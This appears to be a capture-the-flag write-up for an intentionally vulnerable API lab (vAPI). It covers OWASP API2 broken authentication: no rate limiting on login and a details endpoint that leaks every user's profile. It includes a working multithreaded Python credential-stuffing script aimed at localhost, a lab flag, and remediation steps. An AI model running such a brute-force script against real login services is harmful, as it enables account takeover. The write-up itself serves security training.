


# 🛑 API 2: Broken User Authentication

* **OWASP Class:** API2:2023
* **Risk Severity:** High 🔴
* **Target Endpoints:** 
  * `/vapi/api2/user/login` (`POST`)
  * `/vapi/api2/user/details` (`GET`)

---

### 🔍 Vulnerability Profile
The application endpoint suffers from a severe authentication design flaw:
1. **Lack of Rate Limiting / Anti-Brute Force Protection:** The login API accepts rapid, unthrottled authentication attempts. This permits high-speed credential stuffing attacks using pre-compiled wordlists without triggering lockouts, delays, or CAPTCHA defenses.
2. **Horizontal Information Leakage:** Once a valid session token is successfully cracked, passing it to the broad `/user/details` endpoint dumps the private profiles of *every single user* in the system database instead of validating access strictly to the token owner's account data.

### 🔬 Manual Discovery (Burp Suite)
Using the provided lab wordlist (`Resources/API2_CredentialStuffing/creds.csv`), an authentication request was intercepted. The application backend does not implement rate limits, allowing automated tools to discover valid user pairings rapidly. 

Submitting the resulting token to the details path exposed the full data index along with the flag:

<kbd>
  
</kbd>

### 🐍 Programmatic Validation (Python Automation)
To simulate high-performance credential stuffing cleanly without overloading system memory resources (avoiding raw, unthrottled background threads), this script implements a structured `ThreadPoolExecutor` worker pool. It processes rows straight from the target CSV file concurrently using an automated conveyor belt architecture:

```python
import requests
import sys
import csv
from concurrent.futures import ThreadPoolExecutor

TARGET_URL = "http://localhost:8000/vapi/api2/user/login"
CSV_PATH = "creds.csv"
THREADS = 20

def test_credential_pair(pair):
    email, password = pair
    email = email.strip()
    password = password.strip()

    if not email or not password:
        return None

    payload = {
        "email": email,
        "password": password
    }

    try:
        response = requests.post(TARGET_URL, json=payload, timeout=2)

        # If the API response confirms a valid account bypass
        if "usernameOrPasswordIncorrect" not in response.text:
            print(f"\n[+] SUCCESS! Valid Account Found!")
            print(f"    Email:    {email}")
            print(f"    Password: {password}")
            print(f"    Response: {response.text.strip()}")
    except requests.exceptions.RequestException:
        pass
    return None

def main():
    print(f"[*] Commencing high-speed credential stuffing assault...")
    
    credential_pairs = []
    try:
        with open(CSV_PATH, "r", encoding="utf-8", errors="ignore") as f:
            reader = csv.reader(f)
            for row in reader:
                if len(row) >= 2:
                    credential_pairs.append((row[0], row[1]))
    except FileNotFoundError:
        print(f"[-] Error: Target CSV file not found at {CSV_PATH}")
        return

    print(f"[*] Loaded {len(credential_pairs)} pairs. Launching threads...")

    # Managed thread worker loop prevents terminal and OS crashes
    with ThreadPoolExecutor(max_workers=THREADS) as executor:
        executor.map(test_credential_pair, credential_pairs)

if __name__ == "__main__":
    main()
```

### 🖥️ Output Results
Running the script yields a clean account discovery and dumps the secondary flag (`flag{api2_6bf2beda61e2a1ab2d0a}`):

<kbd>
  
</kbd>

### 🛠️ Remediation
1. **Implement Rate Limiting:** Enforce strict throttling policies (e.g., Fail2Ban configuration, API gateway rate-limit policies, or CAPTCHA challenges) on the `/login` route to disrupt high-frequency automated scans.
2. **Access Control Enforcement:** Restrict the backend route at `/user/details` to strictly serialize data objects associated directly with the caller's distinct token payload validation parameters.
